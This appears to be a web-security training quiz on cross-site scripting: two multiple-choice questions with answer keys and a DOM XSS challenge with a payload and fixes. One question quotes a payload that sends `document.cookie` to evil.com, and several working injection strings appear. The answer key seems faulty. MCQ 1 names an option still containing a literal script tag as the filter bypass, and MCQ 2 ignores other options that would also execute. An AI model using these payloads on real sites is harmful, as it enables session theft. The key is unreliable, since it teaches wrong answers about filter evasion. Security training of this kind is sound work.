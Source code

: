 


---

### 🧪 MCQ 1 – XSS Filter Bypass

**Question:**  
You're testing a travel booking web app. The "destination" search field reflects user input directly in the HTML with no escaping.  
Server response:
```html
<p>Searching for flights to: [USER_INPUT]</p>
```
You enter: `"><script>fetch('https://evil.com/'+document.cookie)</script>`  
But it gets blocked by a WAF with the message: "Blocked: script tag detected"

**Which of the following payloads is MOST likely to bypass the filter and still achieve XSS?**

A. `<img src=x onerror=alert(1)>`  
B. `<script type=text/javascript>alert(1)</script>`  
C. `<svg/onload=alert(1)>`  
D. `<scr<script>ipt>alert(1)</script>`

**Answer:** D  
**Explanation:** A polyglot tag bypasses basic string-matching WAFs while remaining functional in the browser. Option D splits the `script` tag in a way that bypasses blacklist filters but executes fully.

---

### 🧪 MCQ 2 – DOM-Based XSS Injection

**Question:**  
A React app has this code:  
```js
const params = new URLSearchParams(window.location.search);  
document.getElementById("welcome").innerHTML = params.get("name");
```

Which payload will most likely execute an alert if there’s no CSP or framework sanitization?

A. `?name=<script>alert('XSS')</script>`  
B. `?name="><img src=x onerror=alert('XSS')>`  
C. `?name=<svg/onload=alert('XSS')>`  
D. `?name="><svg onload=alert('XSS')>`

**Answer:** D  
**Explanation:** Script tags do not execute when inserted via `.innerHTML`, but `svg` tags with event handlers like `onload` do. This makes option D the most reliable payload for this DOM-based context.

---

### 🧨 DOM XSS – Real-World Challenge 1

**Code Snippet:**
```js
const route = new URLSearchParams(location.search).get("view");
document.getElementById("container").innerHTML = `<div>${route}</div>`;
```

**Payload:** `?view="><svg onload=alert('XSS')>`

**Explanation:**  
- User input is reflected via `.innerHTML` without sanitization.  
- Payload breaks out of the `<div>`, injects an `<svg>` tag.  
- `onload` executes, triggering XSS.

**Fixes:**  
1. Replace `.innerHTML` with `.textContent`  
2. Use `DOMPurify.sanitize(route)` before insertion